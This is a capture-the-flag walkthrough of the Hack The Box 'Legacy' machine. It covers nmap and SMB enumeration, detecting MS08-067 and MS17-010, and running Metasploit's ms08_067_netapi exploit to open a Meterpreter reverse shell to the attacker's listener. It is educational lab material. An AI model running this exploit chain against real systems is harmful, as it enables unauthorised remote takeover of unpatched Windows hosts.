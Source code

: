 # Legacy

![Legacy](https://user-images.githubusercontent.com/82520079/179717818-28e56e2a-e8ce-494f-b39f-8075a3d3b66e.png)

## Scanning

The first thing we are going to do is run an NMAP scan to find all open ports. We are going to use "-p-" to scan all the 65.535 ports, "-sS" to perform 
a TCP SYN scan, "--min-rate 5000" to increase scan speed, "--open" to display only open ports, "-Pn" to skip host discovery.

`````
# sudo nmap -p- -sS --min-rate 5000 --open -n -Pn -oG allPorts 10.10.10.4

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
`````
Now that we know all the open ports of the remote machine, let's have a deeper look at each one of them:

`````
# nmap -sC -sV -p135,139,445 -oN targeted 10.10.10.4

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:db:07 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-07-23T14:08:45+03:00
`````
## Understanding the remote machine

First things first, check if the remote machine is up and running. Let’s send a ICMP request packet and wait for the response:

`````
# ping 10.10.10.4 -c 1
PING 10.10.10.4 (10.10.10.4) 56(84) bytes of data.
64 bytes from 10.10.10.4: icmp_seq=1 ttl=127 time=61.1 ms

--- 10.10.10.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
`````

As we’ve received the ICMP response packet, now we know the machine is active. I also like starting with this command because we can check the remote OS that is running with the TTL (time to live) value. Remember that for TTL=128 we are dealing with a Windows machine and for TTL=64, a Linux machine. Looking at this output, the value is closest to 128, so we know we are working with a Windows machine. In fact, looking at the NMAP’s output, we know we are working with a Windows XP.

This machine has only RPC and SMB services active. Let’s check each port. First we have port 135 (Microsoft Windows RPC), 139 (Microsoft Windows netbios-ssn) and port 445 (Microsoft Windows Server 2008 R2). 

### SMB Service

When pentesting SMB service, one of the most useful tools are SMBMap and SMBClient. SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. Although for this tool to work, anonymous login must be allowed. In this machine, it isn’t allowed. So, if we try running this tool:

`````
# smbmap -H 10.10.10.4          
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
`````

For smbclient the output is similar. Knowing that there isn’t much to enumerate without valid credentials, we are going to use NMAP’s NSE. NSE (Nmap Scripting Engine) has up to 35 SMB scripts that can be listed with the following command: 

`````
# ls /usr/share/nmap/scripts | grep smb 
`````

We are not going to see every one of them but only the most common ones. For example “smb-os-discovery.”, used to enumerate target OS along with other interesting things as Computer Name, Domain Name, NETBIOS Computer Name... In addition, we find very useful enumeration scripts: “smb-enum-shares”, to enumerate publicly exposed SMB shares, “smb-enum-users”, to enumerate all users on the remote Windows System. To make things easier, this command is going to run all SMB enumeration scripts. 

`````
# nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum- processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum- shares.nse,smb-enum-users.nse -p445 10.10.10.4
Following with the NSE, nmap comes with various scripts that can be used to detect various vulnerabilities or CVEs: 2009-3103, 2017-7494, MS06-025, MS07-029, MS08-067, MS10-054, MS10-061, MS17-010 (Eternal Blue).
`````
Following with the NSE, nmap comes with various scripts that can be used to detect various vulnerabilities or CVEs: 2009-3103, 2017-7494, MS06-025, MS07-029, MS08-067, MS10-054, MS10-061, MS17-010 (Eternal Blue).

`````
# nmap --script smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse,smb-vuln-webexec.nse -p445 10.10.10.4

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
`````

Thanks to this command, we’ve discovered two critical vulnerabilities that could lead to RCE, CVE-2008-4250 and CVE-2017-0143. CVE-2017-0143 is one of various vulnerabilities detected on SMBv1 servers (Microsoft Security Bulletin MS17-010). The most severe of the vulnerabilities could allow remote code execution if an attacker sends specially crafted messages to a Microsoft Server Message Block 1.0 (SMBv1) server. But first we are going to take a look at the first vulnerability. After some research I found that this vulnerability corresponds to the Microsoft Bulletin MS08-067 and there is a module on Metasploit available. 

`````
msf6 > search ms08-067
`````

So if we run Metasploit and search for this exploit, we get only one module available: “exploit/windows/smb/ms08_067_netapi”. After modifying the parameters RHOSTS and LHOST, we can run the exploit and a Meterpreter session will open.

`````
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.9:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.9:4444 -> 10.10.10.4:1032) at 2022-07-18 13:13:31 +0200

meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

`````

On the directory C:\Documents and Settings we can find the user.txt flag (on the “john” folder) and the root.txt flag (on the “Administrator” folder).





















